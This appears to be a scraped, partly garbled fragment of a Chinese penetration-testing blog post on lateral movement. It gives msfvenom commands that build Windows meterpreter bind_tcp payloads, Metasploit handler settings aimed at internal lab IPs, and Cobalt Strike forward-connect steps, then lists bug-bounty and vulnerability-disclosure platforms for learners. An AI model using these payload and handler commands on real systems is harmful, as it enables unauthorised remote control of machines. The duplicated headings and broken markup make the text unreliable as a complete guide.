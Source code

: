 MSF控制上线（正向）
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=3333 -f exe &gt; bd.exe
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 192.168.11.129
set lport 3333
run


CS控制上线（正向）
监听器：bind_tcp port
命令：connect ip port</code></pre>

<hr/>
<h3>4、第三步：依次上线</h3>
<pre><code>MSF控制上线（正向）
msfvenom -p windows/meterpreter/bind_tcp LHOST=0.0.0.0 LPORT=4455 -f exe &gt; bd2.exe
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set rhost 192.168.22.131
set lport 4455
run

CS控制上线（正向）
监听器：bind_tcp port
命令：connect ip port</code></pre>


### 2、第一步：网络通讯

---


### 4、第三步：依次上线

---


---


> 
<h2><img alt="" height="28" src="https://img-blog.csdnimg.cn/0797a1b4a28e49479db240e038a7969d.png" width="28"/>网络安全三年之约</h2>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/0052aabacbb147b482912c9fe1950f56.png" width="23"/>First year </h3>
掌握各种原理、不断打新的靶场
<img alt="" height="23" src="https://img-blog.csdnimg.cn/6b308c9501174788aa24fa4e5ea8fdd2.png" width="23"/>目标：edusrc、cnvd 
[主页 | 教育漏洞报告平台 (sjtu.edu.cn)https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)[https://www.cnvd.org.cnhttps://www.cnvd.org.cn/](https://www.cnvd.org.cn/)
<hr/>
<h3><img alt="" height="23" src="https://img-blog.csdnimg.cn/8439bb91fdfb4e739bacba4c96b9fb17.png" width="23"/>second year </h3>
不断学习、提升技术运用技巧，研究各种新平台
开始建立自己的渗透体系
<img alt="" height="23" src="https://img-blog.csdnimg.cn/3bc7983d3bac437fbcf8b3530e3ec8d3.png" width="23"/>目标：众测平台、企业src应急响应中心 
<table border="1" cellpadding="1" cellspacing="1"><tbody>|众测平台|URL
|漏洞盒子|[漏洞盒子 | 互联网安全测试众测平台](https://www.vulbox.com/)
|火线安全平台|[火线安全平台](https://www.huoxian.cn/)
|漏洞银行|[BUGBANK 官方网站 | 领先的网络安全漏洞发现品牌 | 开放安全的提出者与倡导者 | 创新的漏洞发现平台](https://www.bugbank.cn/)
|360漏洞众包响应平台|[360漏洞云漏洞众包响应平台](https://src.360.net/)
|补天平台（奇安信）|[补天 - 企业和白帽子共赢的漏洞响应平台，帮助企业建立SRC](https://www.butian.net/)
|春秋云测|[首页](https://zhongce.ichunqiu.com/)